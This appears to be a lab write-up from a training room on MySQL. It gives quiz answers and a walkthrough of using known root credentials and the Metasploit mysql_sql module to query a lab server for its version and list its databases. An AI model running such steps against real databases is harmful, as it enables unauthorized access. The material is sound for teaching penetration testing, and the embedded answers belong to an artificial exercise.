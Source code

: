 

#### Questions

**Understanding**

- What type of software is MySQL? [_relational database management system_]
- What language is MySQL based on? [_sql_]
- What communication model does MySQL use? [_client-server_]
- What is a common application of MySQL? [_back end database_]
- What major social network uses MySQL as their back-end database? [_facebook_]
  - Hint gave it away: `Cambridge Analytica scandal`

**Emumerating**

- As always, let's start out with a port scan, so we know what port the service we're trying to attack is running on. What port is MySQL using? [`3306`]
- Good, now- we think we have a set of credentials. Let's double check that by manually connecting to the MySQL server. We can do this using the command `mysql -h [IP] -u [username] -p`
  - Ran `mysql -h $THM_IP -u root -p`
- Okay, we know that our login credentials work. Lets quit out of this session with "exit" and launch up Metasploit.
- We're going to be using the "mysql_sql" module. Search for, select and list the options it needs. What three options do we need to set? (in descending order). [`PASSWORD/RHOSTS/USERNAME`]
- Run the exploit. By default it will test with the "select version()" command, what result does this give you? [`5.7.29-0ubuntu0.18.04.1`]

```
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.43.160
RHOSTS => 10.10.43.160
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.43.160

[*] 10.10.43.160:3306 - Sending statement: 'select version()'...
[*] 10.10.43.160:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
```

- Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned? [`4`]

```
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL show databases
SQL => show databases
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.43.160

[*] 10.10.43.160:3306 - Sending statement: 'show databases'...
[*] 10.10.43.160:3306 -  | information_schema |
[*] 10.10.43.160:3306 -  | mysql |
[*] 10.10.43.160:3306 -  | performance_schema |
[*] 10.10.43.160:3306 -  | sys |
[*] Auxiliary module execution completed
```
